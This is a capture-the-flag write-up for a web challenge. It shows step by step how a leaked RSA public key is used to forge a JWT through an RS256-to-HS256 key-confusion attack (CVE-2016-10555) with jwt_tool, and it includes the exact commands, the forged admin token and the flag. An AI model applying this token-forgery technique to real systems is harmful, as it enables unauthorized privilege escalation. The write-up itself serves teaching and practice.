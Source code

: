 #  Mr.Voorhees 
* Category: Web
* 200 Points
* Solved by the JCTF Team

## Description
> In reality, there's no such thing as bad luck.
> 
>  Friday is just a day like any other day.
> 
> Also, there's no such thing as bad algorithm.
> 
> The one I used should be secure enough.
> 
> Right?

## Solution

We enter the attached website and are greeted with a picture of [Mr. Voorhees](https://en.wikipedia.org/wiki/Jason_Voorhees) (a.k.a. **Jason** Voorhees), and a banner stating:

> You are not logged in as Admin
> 
> Come back with higher privileges

The website has no login system, so how does it know if we're admins? Let's check if there's a cookie:

```console
root@kali:/media/sf_CTFs/appsec/Mr.Voorhees# curl -s -I https://mr-voorhees.appsecil.ctf.today/ | grep cookie
set-cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6Ikphc29uIiwiaWF0IjoxNjAzNzM4MTIwfQ.To_hskfiK0mZ0lGDQhi_rFhpUzazdv5OfMjeKE6eqj2k0N-QNoueR4jqvGdGvt6Kei42XqDZo1iTwxKDq8ikvw; Path=/
```

This looks like a JWT token:

```
root@kali:/media/sf_CTFs/appsec/Mr.Voorhees# python3 ~/utils/jwt_tool/jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6Ikphc29uIiwiaWF0IjoxNjAzNzM4MTIwfQ.To_hskfiK0mZ0lGDQhi_rFhpUzazdv5OfMjeKE6eqj2k0N-QNoueR4jqvGdGvt6Kei42XqDZo1iTwxKDq8ikvw

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
  Version 2.0                 \______|             @ticarpi

Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = "JWT"
[+] alg = "RS256"

Token payload values:
[+] username = "Jason"
[+] iat = 1603738120    ==> TIMESTAMP = 2020-10-26 20:48:40 (UTC)
```

It has a username of "Jason", and we probably want to replace that with "Admin". However, the token is signed with "RS256" (RSA Signature with SHA-256), and we don't have the key. 

This is a web challenge, so it's always helpful to look around for the usual things. Let's check `robots.txt`:

```console
root@kali:/media/sf_CTFs/appsec/Mr.Voorhees# curl -s https://mr-voorhees.appsecil.ctf.today/robots.txt
User-Agent: Googlebot
Disallow: /backup/
```

What's this backup folder and why is the webmaster trying to hide it from robots?
```console
root@kali:/media/sf_CTFs/appsec/Mr.Voorhees# curl -s https://mr-voorhees.appsecil.ctf.today/backup/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <title>Directory listing for /backup/</title>
</head>
<body>
<h1>Directory listing for /backup/</h1>
<hr>
<ul>
    <li><a href="public.pem">public.pem</a></li>
</ul>
<hr>
</body>
</html>
```

Backed up, there's a linked to a public key.

Let's get it:
```console
root@kali:/media/sf_CTFs/appsec/Mr.Voorhees# wget https://mr-voorhees.appsecil.ctf.today/backup/public.pem
--2020-10-26 20:56:40--  https://mr-voorhees.appsecil.ctf.today/backup/public.pem
Resolving mr-voorhees.appsecil.ctf.today (mr-voorhees.appsecil.ctf.today)... 18.134.59.71
Connecting to mr-voorhees.appsecil.ctf.today (mr-voorhees.appsecil.ctf.today)|18.134.59.71|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 177 [application/x-x509-ca-cert]
Saving to: ‘public.pem’

public.pem                                          100%[==================================================================================================================>]     177  --.-KB/s    in 0s

2020-10-26 20:56:41 (120 MB/s) - ‘public.pem’ saved [177/177]
root@kali:/media/sf_CTFs/appsec/Mr.Voorhees# openssl rsa -pubin -in public.pem  -text
RSA Public-Key: (511 bit)
Modulus:
    66:e1:f0:a4:f7:93:26:e3:bc:c0:c5:61:2a:15:a9:
    b4:76:f8:d8:1c:18:1f:9d:f7:f8:e0:75:27:80:be:
    2a:fd:21:e9:fc:cb:95:a1:d3:f6:78:b4:d6:5e:6f:
    88:9f:40:9a:7d:d3:a5:ec:65:dc:65:ea:76:e0:dd:
    cc:55:3c:e7
Exponent: 65537 (0x10001)
writing RSA key
-----BEGIN PUBLIC KEY-----
MFswDQYJKoZIhvcNAQEBBQADSgAwRwJAZuHwpPeTJuO8wMVhKhWptHb42BwYH533
+OB1J4C+Kv0h6fzLlaHT9ni01l5viJ9Amn3Tpexl3GXqduDdzFU85wIDAQAB
-----END PUBLIC KEY-----
```

There's a known attack against JWT involving public keys: [CVE-2016-10555](https://www.cvedetails.com/cve/CVE-2016-10555/) - The RS/HS256 public key mismatch vulnerability.

> Since "algorithm" isn't enforced in jwt.decode() in jwt-simple 0.3.0 and earlier, a malicious user could choose what algorithm is sent sent to the server. If the server is expecting RSA but is sent HMAC-SHA with RSA's public key, the server will think the public key is actually an HMAC private key. This could be used to forge any data an attacker wants.

Using [jwt_tool](https://github.com/ticarpi/jwt_tool), we can execute it:
```console
root@kali:/media/sf_CTFs/appsec/Mr.Voorhees# python3 ~/utils/jwt_tool/jwt_tool.py -X k -pk public.pem eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6Ikphc29uIiwiaWF0IjoxNjAzNzM4MTIwfQ.To_hskfiK0mZ0lGDQ
hi_rFhpUzazdv5OfMjeKE6eqj2k0N-QNoueR4jqvGdGvt6Kei42XqDZo1iTwxKDq8ikvw  -I -pc username -pv Admin

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
  Version 2.0                 \______|             @ticarpi

Original JWT:

File loaded: public.pem
jwttool_1d9281df0772d80501021d9ea8c2686e - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IkFkbWluIiwiaWF0IjoxNjAzNzM4MTIwfQ.z3ICauMOuuIxO_0WJtBPfdqevXBXqihSIAMSL6w2Ej4
```

What we're doing here is replacing the username with "Admin", changing the algorithm to HS256 (HMAC-SHA256) and resigning with the public key we got.

Let's use the new token to access the website:

```console
root@kali:/media/sf_CTFs/appsec/Mr.Voorhees# curl -s https://mr-voorhees.appsecil.ctf.today/ -H "Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IkFkbWluIiwiaWF0IjoxNjAzNzM4MTIwfQ.z3ICauMOuuIxO_0WJtBPfdqevXBXqihSIAMSL6w2Ej4" | grep AppSec
AppSec-IL{100k_wh47_y0u_d1d_70_h1m}
```

We got the flag.